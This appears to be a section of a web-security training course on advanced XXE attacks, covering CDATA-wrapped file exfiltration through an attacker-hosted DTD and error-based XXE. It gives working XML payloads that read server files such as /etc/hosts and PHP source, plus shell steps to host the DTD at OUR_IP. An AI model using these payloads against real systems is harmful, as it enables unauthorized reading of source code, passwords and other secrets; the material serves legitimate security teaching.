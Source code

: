Not all XXE vulnerabilities may be straightforward to exploit. Some file formats may not be readable through basic XXE, while in other cases, the web application may not output any input values in some instances, so we may try to force it through errors.

## Advanced Exfiltration with CDATA

With PHP we can use filters to encode PHP source files to display them, so they would not break the XML format. In other applications, we can wrap the content of the external file reference with a CDATA tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider it raw data, which may contain any type of data, including any special characters.

One easy way to tackle this issue would be to define a `begin` and and `end` internal entity with `<![CDATA[`, and `]]>`, and then place our external entity file in between, and it should be considered as a `CDATA` element, as follows:
```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

After that, if we reference the `&joined;` entity, it should contain our escaped data. However, `this will not work, since XML prevents joining internal and external entities`.

To bypass this limitation, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD. What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined, as follows:
```xml
<!ENTITY joined "%begin;%file;%end;">
```

So, let's try to read the `submitDetails.php` file by first storing the above line in a DTD file (e.g. `xxe.dtd`), host it on our machine, and then reference it as an external entity on the target web application, as follows:
```shell-session
$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now, we can reference our external entity (`xxe.dtd`) and then print the `&joined;` entity we defined above, which should contain the content of the `submitDetails.php` file, as follows:
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

Once we write our `xxe.dtd` file, host it on our machine, and then add the above lines to our HTTP request to the vulnerable web application, we can finally get the content of the `submitDetails.php` file:
![[web_attacks_xxe_php_cdata.jpg]]

As we can see, we were able to obtain the file's source code without needing to encode it to base64, which saves a lot of time when going through various files to look for secrets and passwords.

**Note:** In some modern web servers, we may not be able to read some files (like index.php), as the web server would be preventing a DOS attack caused by file/entity self-reference (i.e., XML entity reference loop), as mentioned in the previous section.

## Error Based XXE

In some cases the web application might not write any output.

If the application displays run time errors (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit. 

First, let's try to send malformed XML data, and see if the web application displays any errors. To do so, we can delete any of the closing tags, change one of them, so it does not close (e.g. `<roo>` instead of `<root>`), or just reference a non-existing entity, as follows:
![[web_attacks_xxe_cause_error.jpg]]

We caused the web application to display an error, and it also revealed the web server directory, which we can use to read the source code of other files. Now, we can exploit this flaw to exfiltrate file content. To do so, we will use a similar technique to what we used earlier. First, we will host a DTD file that contains the following payload:
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

The above payload defines the `file` parameter entity and then joins it with an entity that does not exist. In our previous exercise, we were joining three strings. In this case, `%nonExistingEntity;` does not exist, so the web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error. There are many other variables that can cause an error, like a bad URI or having bad characters in the referenced file.

Now, we can call our external DTD script, and then reference the `error` entity, as follows:
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

Once we host our DTD script as we did earlier and send the above payload as our XML data (no need to include any other XML data), we will get the content of the `/etc/hosts` file as follows:
![[web_attacks_xxe_exfil_error_2.jpg]]

This method may also be used to read the source code of files. All we have to do is change the file name in our DTD script to point to the file we want to read (e.g. `"file:///var/www/html/submitDetails.php"`). However, `this method is not as reliable as the previous method for reading source files`, as it may have length limitations, and certain special characters may still break it.